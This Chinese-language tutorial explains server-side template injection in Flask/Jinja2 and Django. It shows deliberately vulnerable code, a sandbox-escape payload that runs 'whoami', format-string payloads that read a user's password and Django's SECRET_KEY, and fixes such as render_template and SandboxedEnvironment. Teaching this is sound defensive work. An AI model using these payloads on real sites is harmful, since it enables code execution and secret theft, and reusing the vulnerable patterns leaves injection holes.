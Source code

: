 ## SSTI

模版注入常在flask和jinja2模板中出现，先看一段代码

```python
def ssti():
    if request.values.get('name'):
        name = request.values.get('name')
        template = "<p>%s<p1>" %name
        return render_template_string(template)
        
        #template = Template('<p>%s<p1>' %name)
        #return template.render()
    else:
        return render_template_string('<p>输入name值</p>')
```

其中大概有两个点是值得在意的，一个是格式化字符串，另一个是函数`render_template_string`。其是这两个更像是配合利用，像这么使用就不会有这个问题

```python
def ssti():
    if request.values.get('name'):
        name = request.values.get('name')
        template = "<p>{{ name }}<p1>"
        return render_template_string(template, name=name)
    else:
        return render_template_string('<p>输入name值</p>')
```

这么看的话，问题是出在格式化字符串上，而非某个函数上。格式化字符串的问题就是在于，是否传入是字符串还是一个模板语句。当使用格式化字符换，传入一个`{{ config }}`这样的值的时候，由于字符串的拼接替换，导致传入模板中的时候，被当作一个合法语句执行。而正常取值的时候，是先传入模板语句再进行字符串的解析，函数会把参数当作字符串处理。

当然出于安全考虑，模板引擎基本上都是拥有沙盒的，模板注入并不会直接解析python代码造成任意代码执行，所以想要利用这个问题，就需要配合沙箱逃逸来使用。沙箱逃逸这一块涉及的太多，有关资料也很多，就不多说。

之前也写过一篇[python 沙箱逃逸与SSTI](https://misakikata.github.io/2020/04/python-沙箱逃逸与SSTI/)。常见的利用比如这个执行命令的POC。

```
().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
```

在django中，使用一些IDE创建项目的时候可以很明显看到，使用的模板是`Django`模板，当然我们也可以使用jinja2模板，不过django自己的模板并是很少见过ssti这种问题，倒是由于格式化字符串导致信息泄露，如下使用两种格式化字符串才造成问题的情况。

```python
def SSTI(request):
    if request.GET.get('name'):
        name = request.GET.get('name')
        template = "<p>user:{user}, name:%s<p1>" %name
        return HttpResponse(template.format(user=request.user))
    else:
        return HttpResponse('<p>输入name值</p>')
```

其中，当name传入`{user.password}`会读取到登陆用户的密码，此处使用管理员账号。那么为什么会传入的参数是name，而下面解析的时候被按照变量来读取了。

使用`format`来格式化字符串的时候，我们设定的user是等于`request.user`，而传入的是`{user.password}`，相当于template是`<p>user:{user}, name:{user.password}<p1>`，这样再去格式化字符串就变成了，`name:request.user.password`，导致被读取到信息。

在`format`格式符的情况下，出现ssti的情况也极少，比如使用如下代码，只能获得一个eval函数调用，`format`只能使用点和中括号，导致执行受到了限制。

```
{user.__init__.__globals__[__builtins__][eval]}
```

p牛给过两个代码用来利用django读取信息

```
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

再找几个也可以使用的，上面都是直接使用auth模块来执行，因此可以先使用`{user.groups.model._meta.apps.app_configs}`找到包含的APP。

```
#其实这个跟上面的有些类似都是通过auth来读取
{user.groups.model._meta.apps.app_configs[auth].module.middleware.settings.SECRET_KEY}
#然后还可以换成sessions
{user.groups.model._meta.apps.app_configs[sessions].module.middleware.settings.SECRET_KEY}
#使用staticfiles
{user.groups.model._meta.apps.app_configs[staticfiles].module.utils.settings.SECRET_KEY}
```

### 修复代码

flask只要不把用户输入格式化字符串和`render_template_string`一起使用就可以降低风险，建议可以直接使用`render_template`，使用模板文件。

django使用`render`即可，由于函数原因，并不直接支持格式化字符串。

如果需要使用字符串，或者并不是直接使用框架中的函数。还有一种是jinja2的sandbox，同样可以降低风险。不过sandbox也出现过被绕过的情况，使用的时候要注意版本。

```python
def ssti():
    if request.values.get('name'):
        env = SandboxedEnvironment()
        name = request.values.get('name')
        #template = env.get_template('hello.html')
    	#template.render(name='Geng WenHao')
        return env.from_string(("<p>{name}<p1>").format(name=name)).render()
    else:
        return render_template_string('<p>输入name值</p>')
```



有兴趣的可以看几篇关于沙箱和SSTI利用的文章：

https://www.cnblogs.com/tr1ple/p/9415641.html

https://xz.aliyun.com/t/7746

https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

https://xz.aliyun.com/t/52

https://www.mi1k7ea.com/2019/06/02/%E6%B5%85%E6%9E%90Python-Flask-SSTI/